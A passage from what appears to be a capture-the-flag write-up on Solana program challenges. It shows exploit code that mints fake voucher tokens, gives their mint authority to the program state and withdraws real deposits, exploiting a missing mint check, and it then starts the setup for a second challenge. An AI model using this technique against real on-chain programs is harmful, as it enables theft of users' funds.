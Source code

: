 ```
    space: spl.ACCOUNT_SIZE,
}),
spl.createInitializeAccountInstruction(
    accountKeyPair.publicKey,
    mintKeyPair.publicKey,
    player.publicKey
),

// mint 1000000 fake voucher tokens
spl.createMintToInstruction(
    mintKeyPair.publicKey,
    accountKeyPair.publicKey,
    player.publicKey,
    1000000
),

// change the fake voucher mint authority to `state`
spl.createSetAuthorityInstruction(
    mintKeyPair.publicKey,
    player.publicKey,
    spl.AuthorityType.MintTokens,
    new anchor.web3.PublicKey(accounts.state)
),

// withdraw using the fake voucher tokens
// This succeeds because `withdraw` checks only that the `voucherMint` mint
// authority is `state`.
program.instruction.withdraw(new BN(1000000), {
    accounts: {
        player: player.publicKey,
        depositor: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        depositAccount: new anchor.web3.PublicKey(accounts.depositAccount),
        voucherMint: mintKeyPair.publicKey,
        depositorAccount: attackerKeyPair.publicKey,
        depositorVoucherAccount: accountKeyPair.publicKey,
        tokenProgram: new anchor.web3.PublicKey(spl.TOKEN_PROGRAM_ID),
    }
}),
```

## [](https://hackmd.io/@theori/r1gnaGNks#Challenge-2 "Challenge-2")Challenge 2

### [](https://hackmd.io/@theori/r1gnaGNks#Setup1 "Setup1")Setup

-   Create three mint accounts for “wormhole eth” (8 decimals), “sollet
    eth” (6 decimals), and “lido eth” (8 decimals)
-   Create pool accounts, pool token accounts, and pool voucher mint
    accounts
-   Mint 100,000,000 tokens of each “eth” type to the pool token
    accounts
-   Create token accounts for the player and mint the player 1,000
    tokens of each “eth” type
